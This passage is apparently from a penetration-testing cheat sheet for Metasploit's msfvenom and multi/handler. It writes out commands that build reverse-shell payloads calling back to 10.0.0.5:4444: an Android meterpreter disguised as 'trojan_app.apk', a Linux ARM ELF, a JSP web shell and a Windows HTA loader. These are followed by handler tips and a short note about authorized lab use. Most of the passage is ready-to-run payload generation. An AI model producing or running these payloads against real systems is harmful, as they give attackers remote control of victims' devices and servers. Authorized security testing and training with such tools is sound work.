```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -o trojan_app.apk
```

**Linux ARMLE Meterpreter:**

```bash
msfvenom -p linux/armle/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f elf -o arm_meter.elf
```

**JSP Web Shell:**

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f raw -o shell.jsp
```

**Macro / HTA loader example:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f hta-psh -o loader.hta
```

---

## Handler tips for new payload types

- Match the payload exactly in the handler: if you generated `windows/meterpreter/reverse_https`, `use exploit/multi/handler` then `set payload windows/meterpreter/reverse_https`.
    
- When using HTTP(S) stagers, consider `set SRVHOST`/`SRVPORT` if using `exploit/multi/handler` with web delivery options.
    

---

## Final best practices & resources

- Always confirm payload names/variants with `msfvenom -l payloads`.
    
- Test payloads in isolated labs and VMs using the target platform/ABI.
    
- Log and document every action during authorized engagements for reporting and remediation.
    
- Keep Metasploit and msfvenom updated to ensure compatibility and the latest payload options.
    

---

